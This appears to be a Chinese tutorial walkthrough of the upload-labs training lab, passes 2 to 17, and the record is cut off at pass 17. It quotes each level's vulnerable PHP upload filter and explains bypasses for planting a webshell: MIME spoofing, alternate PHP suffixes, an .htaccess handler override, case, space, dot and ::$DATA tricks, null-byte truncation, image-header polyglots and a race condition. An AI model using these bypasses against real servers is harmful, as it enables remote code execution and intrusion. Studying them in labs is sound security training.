# 1.7-文件上传


## 1.1-文件上传简介

学习建议：

​	这里面常常会提到一些学术关键词，这些关键词最好自己去百度一下，了解完之后再来看文档事半功倍哦

- 对于安全人员来讲，就是突破各种限制，上传一个带有webshell的文件，并且成功执行，达到远程执行的目的
- 普通情况下，我们可以看到各种论坛社区都存在一些文件上传的地方，这些上传点，一般只能上传图片后缀的文件，而我们如果上传一个php文件，并且能够访问加载该php文件，那么我们就相当于拿到了一台服务器，我们的目的也是如此
- 
- 上图就是一个shell被上传成功的例子，可以看到我们可以随意构造我们的命令

## 2.1-pass-2-MIME绕过

- 
- 直接上源码，可以看到这里是MIME的上传限制，也就是说不检测文件后缀，只检测MIME
- MIME:**媒体类型**（通常称为 **Multipurpose Internet Mail Extensions** 或 **MIME** 类型）是一种标准，用来表示文档、文件或字节流的性质和格式。它在[IETF RFC 6838](https://tools.ietf.org/html/rfc6838)中进行了定义和标准化
- 因此我们可以先讲webshell的文件修改为shell.png，然后通过bp抓包截取修改文件名为php即可
- 
- 注意文件名修改为php，content-type没有变，而这里检测就是content-type框选的内容
- 
- 上传成功，接下来检测一下代码
- 
- 漏洞利用成功

## 2.2-pass-3-上传后缀绕过

- ```php
  $is_upload = false;
  $msg = null;
  if (isset($_POST['submit'])) {
      if (file_exists(UPLOAD_PATH)) {
          $deny_ext = array('.asp','.aspx','.php','.jsp');
          $file_name = trim($_FILES['upload_file']['name']);
          $file_name = deldot($file_name);//删除文件名末尾的点
          $file_ext = strrchr($file_name, '.');
          $file_ext = strtolower($file_ext); //转换为小写
          $file_ext = str_ireplace('::$DATA', '', $file_ext);//去除字符串::$DATA
          $file_ext = trim($file_ext); //收尾去空
  
          if(!in_array($file_ext, $deny_ext)) {
              $temp_file = $_FILES['upload_file']['tmp_name'];
              $img_path = UPLOAD_PATH.'/'.date("YmdHis").rand(1000,9999).$file_ext;            
              if (move_uploaded_file($temp_file,$img_path)) {
                   $is_upload = true;
              } else {
                  $msg = '上传出错！';
              }
          } else {
              $msg = '不允许上传.asp,.aspx,.php,.jsp后缀文件！';
          }
      } else {
          $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
      }
  }
  ```

- 分析源码可以发现这是一个黑名单，仅仅不允许asp,aspx,php,jsp文件上传，因此我们只需要上传phtml,php3,php5,php7这类的文件后缀就可以，默认情况下phtml也是可以解析为php文件的

- php由于历史原因，部分解释器可能支持符合正则 `/ph(p[2-7]?|t(ml)?)/` 的后缀，如 `php` / `php5`/ `pht` / `phtml` / `shtml` / `pwml` / `phtm` 等 可在禁止上传php文件时测试该类型。

- 因此我们可以利用这个漏洞上传黑名单中没有的php文件

- 

- 这里我用了phtml作为代表

- 

- 测试成功

## 2.2-pass-4-.htaccess绕过

- ```php
  $is_upload = false;
  $msg = null;
  if (isset($_POST['submit'])) {
      if (file_exists(UPLOAD_PATH)) {
          $deny_ext = array(".php",".php5",".php4",".php3",".php2","php1",".html",".htm",".phtml",".pht",".pHp",".pHp5",".pHp4",".pHp3",".pHp2","pHp1",".Html",".Htm",".pHtml",".jsp",".jspa",".jspx",".jsw",".jsv",".jspf",".jtml",".jSp",".jSpx",".jSpa",".jSw",".jSv",".jSpf",".jHtml",".asp",".aspx",".asa",".asax",".ascx",".ashx",".asmx",".cer",".aSp",".aSpx",".aSa",".aSax",".aScx",".aShx",".aSmx",".cEr",".sWf",".swf");
          $file_name = trim($_FILES['upload_file']['name']);
          $file_name = deldot($file_name);//删除文件名末尾的点
          $file_ext = strrchr($file_name, '.');
          $file_ext = strtolower($file_ext); //转换为小写
          $file_ext = str_ireplace('::$DATA', '', $file_ext);//去除字符串::$DATA
          $file_ext = trim($file_ext); //收尾去空
  
          if (!in_array($file_ext, $deny_ext)) {
              $temp_file = $_FILES['upload_file']['tmp_name'];
              $img_path = UPLOAD_PATH.'/'.$file_name;
              if (move_uploaded_file($temp_file, $img_path)) {
                  $is_upload = true;
              } else {
                  $msg = '上传出错！';
              }
          } else {
              $msg = '此文件不允许上传!';
          }
      } else {
          $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
      }
  }
  
  ```

  

- 分析源码，可以发现这是一个黑名单，不允许上传一些可能造成文件上传的漏洞，由于靶场的环境是php+apache所以我们可以尝试上传.htacess文件

- htaccess：.htaccess是一个纯文本文件，它里面存放着Apache服务器配置相关的指令

- 当我们使用apache部署一个网站代码准备部署到网上的时候，我们手中的apache的httpd.conf大家肯定都知道。这是apache的配置文件，然而我们大多数的网站都是基于云服务器来部署的，还有就是团队协作开发的时候，我们很难直接修改公共的httpd.conf，这时 .htaccess就是httpd.conf的衍生品，它起着和httpd.conf相同的作用

- 如果在.htaccess中键入以下内容就可以让png文件当php执行了

- ```
  sethandler application/x-httpd-php #强制所有文件解析为php
  ```

- 写入以上内容如果访问一张图片也会解析成为php

- 首先上传.htaccess

- 

- 接着上传一个png图片，里面写了一句话木马

- 

- 可以发现这里的文件后缀为png但是依旧可以正常执行

## 2.2-pass-5-大小写绕过

- 

- ```php
  $is_upload = false;
  $msg = null;
  if (isset($_POST['submit'])) {
      if (file_exists(UPLOAD_PATH)) {
          $deny_ext = array(".php",".php5",".php4",".php3",".php2",".html",".htm",".phtml",".pht",".pHp",".pHp5",".pHp4",".pHp3",".pHp2",".Html",".Htm",".pHtml",".jsp",".jspa",".jspx",".jsw",".jsv",".jspf",".jtml",".jSp",".jSpx",".jSpa",".jSw",".jSv",".jSpf",".jHtml",".asp",".aspx",".asa",".asax",".ascx",".ashx",".asmx",".cer",".aSp",".aSpx",".aSa",".aSax",".aScx",".aShx",".aSmx",".cEr",".sWf",".swf",".htaccess");
          $file_name = trim($_FILES['upload_file']['name']);
          $file_name = deldot($file_name);//删除文件名末尾的点
          $file_ext = strrchr($file_name, '.');
          $file_ext = str_ireplace('::$DATA', '', $file_ext);//去除字符串::$DATA
          $file_ext = trim($file_ext); //首尾去空
  
          if (!in_array($file_ext, $deny_ext)) {
              $temp_file = $_FILES['upload_file']['tmp_name'];
              $img_path = UPLOAD_PATH.'/'.date("YmdHis").rand(1000,9999).$file_ext;
              if (move_uploaded_file($temp_file, $img_path)) {
                  $is_upload = true;
              } else {
                  $msg = '上传出错！';
              }
          } else {
              $msg = '此文件类型不允许上传！';
          }
      } else {
          $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
      }
  }
  ```

- 这里虽然禁止了所有可能性的php后缀文件，但是没有将后缀转换为大小写，因此，可以利用PhTml这种类型的后缀绕过
- 

## 2.2-pass-6-空格绕过

- 首先声明一点，这道题只能在windows上面绕过，因为windows的特性，可以将文件后缀的空格自动去除，而linux则不行

- 分析源码可以发现这里少了去空格，因此考点是空格过滤，在上传的文件上直接加上一个空格即可，可以是bp也可以是系统内修改，但是windows系统不能，因为windows会自动去除最后的空格

- ```php
  $is_upload = false;
  $msg = null;
  if (isset($_POST['submit'])) {
      if (file_exists(UPLOAD_PATH)) {
          $deny_ext = array(".php",".php5",".php4",".php3",".php2",".html",".htm",".phtml",".pht",".pHp",".pHp5",".pHp4",".pHp3",".pHp2",".Html",".Htm",".pHtml",".jsp",".jspa",".jspx",".jsw",".jsv",".jspf",".jtml",".jSp",".jSpx",".jSpa",".jSw",".jSv",".jSpf",".jHtml",".asp",".aspx",".asa",".asax",".ascx",".ashx",".asmx",".cer",".aSp",".aSpx",".aSa",".aSax",".aScx",".aShx",".aSmx",".cEr",".sWf",".swf",".htaccess");
          $file_name = $_FILES['upload_file']['name'];
          $file_name = deldot($file_name);//删除文件名末尾的点
          $file_ext = strrchr($file_name, '.');
          $file_ext = strtolower($file_ext); //转换为小写
          $file_ext = str_ireplace('::$DATA', '', $file_ext);//去除字符串::$DATA
          
          if (!in_array($file_ext, $deny_ext)) {
              $temp_file = $_FILES['upload_file']['tmp_name'];
              $img_path = UPLOAD_PATH.'/'.date("YmdHis").rand(1000,9999).$file_ext;
              if (move_uploaded_file($temp_file,$img_path)) {
                  $is_upload = true;
              } else {
                  $msg = '上传出错！';
              }
          } else {
              $msg = '此文件不允许上传';
          }
      } else {
          $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
      }
  }
  ```

- 

## 2.2-pass-7-点绕过

- 

- ```php
  $is_upload = false;
  $msg = null;
  if (isset($_POST['submit'])) {
      if (file_exists(UPLOAD_PATH)) {
          $deny_ext = array(".php",".php5",".php4",".php3",".php2",".html",".htm",".phtml",".pht",".pHp",".pHp5",".pHp4",".pHp3",".pHp2",".Html",".Htm",".pHtml",".jsp",".jspa",".jspx",".jsw",".jsv",".jspf",".jtml",".jSp",".jSpx",".jSpa",".jSw",".jSv",".jSpf",".jHtml",".asp",".aspx",".asa",".asax",".ascx",".ashx",".asmx",".cer",".aSp",".aSpx",".aSa",".aSax",".aScx",".aShx",".aSmx",".cEr",".sWf",".swf",".htaccess");
          $file_name = trim($_FILES['upload_file']['name']);
          $file_ext = strrchr($file_name, '.');
          $file_ext = strtolower($file_ext); //转换为小写
          $file_ext = str_ireplace('::$DATA', '', $file_ext);//去除字符串::$DATA
          $file_ext = trim($file_ext); //首尾去空
          
          if (!in_array($file_ext, $deny_ext)) {
              $temp_file = $_FILES['upload_file']['tmp_name'];
              $img_path = UPLOAD_PATH.'/'.$file_name;
              if (move_uploaded_file($temp_file, $img_path)) {
                  $is_upload = true;
              } else {
                  $msg = '上传出错！';
              }
          } else {
              $msg = '此文件类型不允许上传！';
          }
      } else {
          $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
      }
  }
  ```

- 通过查看源码发现，这里没有删除文件末尾的点，因此我们可以在文件最后直接加上一个.就可以了
- 因为文件后缀为.没有在黑名单中，因此直接跳转到移动文件，而移动文件之前又将文件名拼接回来，没有做任何修改，因此可以利用.来绕过
- 

## 2.2-pass-8-::$DATA

- ```php
  $is_upload = false;
  $msg = null;
  if (isset($_POST['submit'])) {
      if (file_exists(UPLOAD_PATH)) {
          $deny_ext = array(".php",".php5",".php4",".php3",".php2",".html",".htm",".phtml",".pht",".pHp",".pHp5",".pHp4",".pHp3",".pHp2",".Html",".Htm",".pHtml",".jsp",".jspa",".jspx",".jsw",".jsv",".jspf",".jtml",".jSp",".jSpx",".jSpa",".jSw",".jSv",".jSpf",".jHtml",".asp",".aspx",".asa",".asax",".ascx",".ashx",".asmx",".cer",".aSp",".aSpx",".aSa",".aSax",".aScx",".aShx",".aSmx",".cEr",".sWf",".swf",".htaccess");
          $file_name = trim($_FILES['upload_file']['name']);
          $file_name = deldot($file_name);//删除文件名末尾的点
          $file_ext = strrchr($file_name, '.');
          $file_ext = strtolower($file_ext); //转换为小写
          $file_ext = trim($file_ext); //首尾去空
          
          if (!in_array($file_ext, $deny_ext)) {
              $temp_file = $_FILES['upload_file']['tmp_name'];
              $img_path = UPLOAD_PATH.'/'.date("YmdHis").rand(1000,9999).$file_ext;
              if (move_uploaded_file($temp_file, $img_path)) {
                  $is_upload = true;
              } else {
                  $msg = '上传出错！';
              }
          } else {
              $msg = '此文件类型不允许上传！';
          }
      } else {
          $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
      }
  }
  ```

- 经过前面一关和这一关的对比，可以发现这里没有过滤::$DATA,这是windows 的一个特性,在window的时候如果文件名+`"::$DATA"`会把`::$DATA`之后的数据当成文件流处理,不会检测后缀名，且保持`::$DATA`之前的文件名，他的目的就是不检查后缀名,因此我们只需要上传文件的时候直接加上在末尾加上::$DATA就可以了
- 

## 2.2-pass-9-空格+点绕过

- 

- ```php
  $is_upload = false;
  $msg = null;
  if (isset($_POST['submit'])) {
      if (file_exists(UPLOAD_PATH)) {
          $deny_ext = array(".php",".php5",".php4",".php3",".php2",".html",".htm",".phtml",".pht",".pHp",".pHp5",".pHp4",".pHp3",".pHp2",".Html",".Htm",".pHtml",".jsp",".jspa",".jspx",".jsw",".jsv",".jspf",".jtml",".jSp",".jSpx",".jSpa",".jSw",".jSv",".jSpf",".jHtml",".asp",".aspx",".asa",".asax",".ascx",".ashx",".asmx",".cer",".aSp",".aSpx",".aSa",".aSax",".aScx",".aShx",".aSmx",".cEr",".sWf",".swf",".htaccess");
          $file_name = trim($_FILES['upload_file']['name']);
          $file_name = deldot($file_name);//删除文件名末尾的点
          $file_ext = strrchr($file_name, '.');
          $file_ext = strtolower($file_ext); //转换为小写
          $file_ext = str_ireplace('::$DATA', '', $file_ext);//去除字符串::$DATA
          $file_ext = trim($file_ext); //首尾去空
          
          if (!in_array($file_ext, $deny_ext)) {
              $temp_file = $_FILES['upload_file']['tmp_name'];
              $img_path = UPLOAD_PATH.'/'.$file_name;
              if (move_uploaded_file($temp_file, $img_path)) {
                  $is_upload = true;
              } else {
                  $msg = '上传出错！';
              }
          } else {
              $msg = '此文件类型不允许上传！';
          }
      } else {
          $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
      }
  }
  ```

- 分析源码，这一次过滤做的很全面，但是我们可以通过第6关的原理，在php后缀之后加上一个.然后加上一个空格再加上一个点，这是为了去除点之后还剩余一个.和空格，然后去除空格之后就只剩下点了，因此可以绕过
- 
- 连接的时候不要忘记了%20(空格)因为文件最后的点被去除了，但是空格没有去除
- 

## 2.2-pass-10-双写绕过

- ```php
  $is_upload = false;
  $msg = null;
  if (isset($_POST['submit'])) {
      if (file_exists(UPLOAD_PATH)) {
          $deny_ext = array("php","php5","php4","php3","php2","html","htm","phtml","pht","jsp","jspa","jspx","jsw","jsv","jspf","jtml","asp","aspx","asa","asax","ascx","ashx","asmx","cer","swf","htaccess");
  
          $file_name = trim($_FILES['upload_file']['name']);
          $file_name = str_ireplace($deny_ext,"", $file_name);
          $temp_file = $_FILES['upload_file']['tmp_name'];
          $img_path = UPLOAD_PATH.'/'.$file_name;        
          if (move_uploaded_file($temp_file, $img_path)) {
              $is_upload = true;
          } else {
              $msg = '上传出错！';
          }
      } else {
          $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
      }
  }
  ```

- 通过分析源码可以发现，这里没有做其他过滤，只是替换了黑名单中的文件后缀为空，因此无论是前面几关的绕过还是双写绕过都是可以的，这里我们采用双写绕过
- 双写绕过就是将php里面再叠加一层php，pphphp,列如这样，替换掉php之后就是php了
- 
- 

## 2.2-pass-11-%00截断-get

- ```php
  $is_upload = false;
  $msg = null;
  if(isset($_POST['submit'])){
      $ext_arr = array('jpg','png','gif');
      $file_ext = substr($_FILES['upload_file']['name'],strrpos($_FILES['upload_file']['name'],".")+1);
      if(in_array($file_ext,$ext_arr)){
          $temp_file = $_FILES['upload_file']['tmp_name'];
          $img_path = $_GET['save_path']."/".rand(10, 99).date("YmdHis").".".$file_ext;
  
          if(move_uploaded_file($temp_file,$img_path)){
              $is_upload = true;
          } else {
              $msg = '上传出错！';
          }
      } else{
          $msg = "只允许上传.jpg|.png|.gif类型文件！";
      }
  }
  ```

- 通过分析源码可以发现上传的文件路径有一个GET变量，这里面我们是可控的
- 由于系统解析的时候如果遇到00这段代码则会自动停止往下，由于%00在url中的编码就是00，因此我们可以直接截断路径，改变文件名
- 需要注意的是，这里只需要修改get请求的变量即可，因为上传文件的时候会自动截断后面的字符
- 
- 由于我们的php版本为7，而magic_quotes_gpc默认是开启的，所以不能绕过，如果php版本小于等于5.2.17则可以绕过

## 2.2-pass-12-0x00截断-post

- ```php
  $is_upload = false;
  $msg = null;
  if(isset($_POST['submit'])){
      $ext_arr = array('jpg','png','gif');
      $file_ext = substr($_FILES['upload_file']['name'],strrpos($_FILES['upload_file']['name'],".")+1);
      if(in_array($file_ext,$ext_arr)){
          $temp_file = $_FILES['upload_file']['tmp_name'];
          $img_path = $_POST['save_path']."/".rand(10, 99).date("YmdHis").".".$file_ext;
  
          if(move_uploaded_file($temp_file,$img_path)){
              $is_upload = true;
          } else {
              $msg = "上传失败";
          }
      } else {
          $msg = "只允许上传.jpg|.png|.gif类型文件！";
      }
  }
  ```

- 分析源码可以发现修改了路径的变量提交方式为POST，由于POST请求不会解析URL编码，因此我们需要在文件后缀上插入0x00进行截断，这里使用burpsuite pro
- 

## 2.2-pass-13-文件头绕过

- ```php
  function getReailFileType($filename){
      $file = fopen($filename, "rb");
      $bin = fread($file, 2); //只读2字节
      fclose($file);
      $strInfo = @unpack("C2chars", $bin);    
      $typeCode = intval($strInfo['chars1'].$strInfo['chars2']);    
      $fileType = '';    
      switch($typeCode){      
          case 255216:            
              $fileType = 'jpg';
              break;
          case 13780:            
              $fileType = 'png';
              break;        
          case 7173:            
              $fileType = 'gif';
              break;
          default:            
              $fileType = 'unknown';
          }    
          return $fileType;
  }
  
  $is_upload = false;
  $msg = null;
  if(isset($_POST['submit'])){
      $temp_file = $_FILES['upload_file']['tmp_name'];
      $file_type = getReailFileType($temp_file);
  
      if($file_type == 'unknown'){
          $msg = "文件未知，上传失败！";
      }else{
          $img_path = UPLOAD_PATH."/".rand(10, 99).date("YmdHis").".".$file_type;
          if(move_uploaded_file($temp_file,$img_path)){
              $is_upload = true;
          } else {
              $msg = "上传出错！";
          }
      }
  }
  ```

- 分析源码，这里检测了文件头，如果文件头的前两个字节返回的代码为图片则可以上传，如果不是则上传失败
- 
- 这里可以参考常见文件头特征
- 这里我们使用png为列子，这里只需要保证文件包含可以利用一句话木马即可
- 图片制作，首先找到一张正常的Png图片，然后写一个一句话木马文件，cat shell.php > shell.png即可
- 
- 文件上传成功，使用get请求的时候失败，但是用蚁剑可以加载
- 

## 2.2-pass-14-文件头绕过2-getimagesize

- ```php
  function isImage($filename){
      $types = '.jpeg|.png|.gif';
      if(file_exists($filename)){
          $info = getimagesize($filename);
          $ext = image_type_to_extension($info[2]);
          if(stripos($types,$ext)>=0){
              return $ext;
          }else{
              return false;
          }
      }else{
          return false;
      }
  }
  
  $is_upload = false;
  $msg = null;
  if(isset($_POST['submit'])){
      $temp_file = $_FILES['upload_file']['tmp_name'];
      $res = isImage($temp_file);
      if(!$res){
          $msg = "文件未知，上传失败！";
      }else{
          $img_path = UPLOAD_PATH."/".rand(10, 99).date("YmdHis").$res;
          if(move_uploaded_file($temp_file,$img_path)){
              $is_upload = true;
          } else {
              $msg = "上传出错！";
          }
      }
  }
  ```

- **getimagesize()**函数将测定任何GIF，JPG，PNG，SWF，SWC，PSD，TIFF，BMP，IFF，JP2，JPX，JB2，JPC，XBM或WBMP图像文件的大小并返回图像的大小和文件类型和一个可以用于普通HTML文件`IMG`标记中的高度/宽度文本字符串。

  如果不能访问 `filename` 指定的图像或者其不是有效的图像，**getimagesize()** 将返回 **`false`** 并产生一条 E_WARNING级的错误。

- 这里利用了getimagesize函数，检测比较严格，因此我们需要制作图片木马，还是一样的找一张完整的图片，然后使用cat 一句话 > 目标图片即可

- 

- 

- 上传该文件
- 再次蚁剑测试
- 

## 2.2-pass-15-文件头绕过3-exif_imagetype

- **exif_imagetype()** 读取一个图像的第一个字节并检查其签名。

  本函数可用来避免调用其它 [exif](https://www.php.net/manual/zh/ref.exif.php) 函数用到了不支持的文件类型上或和 [$_SERVER['HTTP_ACCEPT'\]](https://www.php.net/manual/zh/reserved.variables.server.php) 结合使用来检查浏览器是否可以显示某个指定的图像。

- ```php
  function isImage($filename){
      //需要开启php_exif模块
      $image_type = exif_imagetype($filename);
      switch ($image_type) {
          case IMAGETYPE_GIF:
              return "gif";
              break;
          case IMAGETYPE_JPEG:
              return "jpg";
              break;
          case IMAGETYPE_PNG:
              return "png";
              break;    
          default:
              return false;
              break;
      }
  }
  
  $is_upload = false;
  $msg = null;
  if(isset($_POST['submit'])){
      $temp_file = $_FILES['upload_file']['tmp_name'];
      $res = isImage($temp_file);
      if(!$res){
          $msg = "文件未知，上传失败！";
      }else{
          $img_path = UPLOAD_PATH."/".rand(10, 99).date("YmdHis").".".$res;
          if(move_uploaded_file($temp_file,$img_path)){
              $is_upload = true;
          } else {
              $msg = "上传出错！";
          }
      }
  }
  ```

- 这一题还是一样的，可以利用图片木马结合文件包含，然后利用蚁剑连接即可
- 
- 

## 2.2-pass-16-二次渲染

- **imagecreatefromjpeg()** 返回一图像标识符，代表了从给定的文件名取得的图像。

- 二次渲染上传的png,jpg很麻烦，如果是gif只需要没有变化的地方插入php代码即可结合文件包含利用即可

- ```php
  $is_upload = false;
  $msg = null;
  if (isset($_POST['submit'])){
      // 获得上传文件的基本信息，文件名，类型，大小，临时文件路径
      $filename = $_FILES['upload_file']['name'];
      $filetype = $_FILES['upload_file']['type'];
      $tmpname = $_FILES['upload_file']['tmp_name'];
  
      $target_path=UPLOAD_PATH.'/'.basename($filename);
  
      // 获得上传文件的扩展名
      $fileext= substr(strrchr($filename,"."),1);
  
      //判断文件后缀与类型，合法才进行上传操作
      if(($fileext == "jpg") && ($filetype=="image/jpeg")){
          if(move_uploaded_file($tmpname,$target_path)){
              //使用上传的图片生成新的图片
              $im = imagecreatefromjpeg($target_path);
  
              if($im == false){
                  $msg = "该文件不是jpg格式的图片！";
                  @unlink($target_path);
              }else{
                  //给新图片指定文件名
                  srand(time());
                  $newfilename = strval(rand()).".jpg";
                  //显示二次渲染后的图片（使用用户上传图片生成的新图片）
                  $img_path = UPLOAD_PATH.'/'.$newfilename;
                  imagejpeg($im,$img_path);
                  @unlink($target_path);
                  $is_upload = true;
              }
          } else {
              $msg = "上传出错！";
          }
  
      }else if(($fileext == "png") && ($filetype=="image/png")){
          if(move_uploaded_file($tmpname,$target_path)){
              //使用上传的图片生成新的图片
              $im = imagecreatefrompng($target_path);
  
              if($im == false){
                  $msg = "该文件不是png格式的图片！";
                  @unlink($target_path);
              }else{
                   //给新图片指定文件名
                  srand(time());
                  $newfilename = strval(rand()).".png";
                  //显示二次渲染后的图片（使用用户上传图片生成的新图片）
                  $img_path = UPLOAD_PATH.'/'.$newfilename;
                  imagepng($im,$img_path);
  
                  @unlink($target_path);
                  $is_upload = true;               
              }
          } else {
              $msg = "上传出错！";
          }
  
      }else if(($fileext == "gif") && ($filetype=="image/gif")){
          if(move_uploaded_file($tmpname,$target_path)){
              //使用上传的图片生成新的图片
              $im = imagecreatefromgif($target_path);
              if($im == false){
                  $msg = "该文件不是gif格式的图片！";
                  @unlink($target_path);
              }else{
                  //给新图片指定文件名
                  srand(time());
                  $newfilename = strval(rand()).".gif";
                  //显示二次渲染后的图片（使用用户上传图片生成的新图片）
                  $img_path = UPLOAD_PATH.'/'.$newfilename;
                  imagegif($im,$img_path);
  
                  @unlink($target_path);
                  $is_upload = true;
              }
          } else {
              $msg = "上传出错！";
          }
      }else{
          $msg = "只允许上传后缀为.jpg|.png|.gif的图片文件！";
      }
  }
  ```

- 先上传一张gif图片，然后将二次渲染的图片和原图做对比，找到没有改变的位置插入一句话
- 
- 再次上传
- 
- 
- 这里面如果只插入一句话木马不能正常运行，返回的数据为空，如果加入phpinfo又可以了，有点玄学

## 2.2-pass-17-条件竞争

- 条件竞争：发生在多个线程同时访问同一个共享代码、变量、文件等没有进行锁操作或者同步操作的场景中

- 在文件上传中的条件竞争就是利用上传文件的时间差来执行上传的文件，从而达到远程执行的目的

- 为了使用bp抓到的包直接发送原始数据进行条件竞争，这里我们使用hackhttpd模块可以使用以下命令安装

- ```
  pip install hackhttp 
  ```

  

- ```php
  $is_upload = false;
